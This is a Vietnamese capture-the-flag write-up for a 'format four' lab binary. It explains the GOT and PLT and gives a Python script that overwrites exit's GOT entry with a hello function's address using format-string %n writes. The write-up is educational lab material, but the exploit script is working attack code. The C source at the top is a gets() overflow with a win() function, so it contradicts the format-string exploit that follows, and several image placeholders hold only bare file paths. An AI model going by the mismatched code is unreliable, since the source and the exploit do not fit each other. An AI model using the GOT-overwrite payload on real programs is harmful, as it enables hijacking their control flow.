




# Format four
Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
## Sơ qua về GOT và PLT 
Theo định nghĩa thì:
- PLT stands for Procedure Linkage Table which is, put simply, used to call external procedures/functions whose address isn't known in the time of linking, and is left to be resolved by the dynamic linker at run time.

- GOT stands for Global Offsets Table and is similarly used to resolve addresses.

vậy cơ bản thì đây là phần nằm trong .plt 


và đây là phần nằm trong .got


 trong đó 0x080483f2 là địa chỉ thực của hàm exit@plt 
## Giải
- ta có địa chỉ của hàm hello là:


- Cho địa chỉ của hàm hello thay thế cho địa chỉ của exit và ta được


Bây giờ chúng ta sẽ viết 1 đoạn script để exploit chương trình này:
```py
import struct

HELLO = 0x080484b4
EXIT_PLT = 0x8049724

def pad(s):
    return s + "X"*(512-len(s))

exploit = ""
exploit += struct.pack("I", EXIT_PLT)
exploit += struct.pack("I", EXIT_PLT+2)
exploit += "BBBBCCCC"
exploit+= "%33956x"
exploit+="%4$n"
exploit+= "%33616x"
exploit+="%5$n"
print(pad(exploit))
```


Trong đó
> exploit+= "%33956x"
> exploit+="%4$n"

dùng để ghi đè 2 byte cuối của địa chỉ bên trong GOT thành `84b4` cách tính toán này tương tự như bài `format_3`

> exploit+= "%33616x"
> exploit+="%5$n"

để ghi 2 byte trên của địa chỉ trong GOT thành `0804`
(ở đây chính xác hơn phải là `10804` nhưng GOT chỉ thấy 4 byte thôi nên không ảnh hưởng gì cả)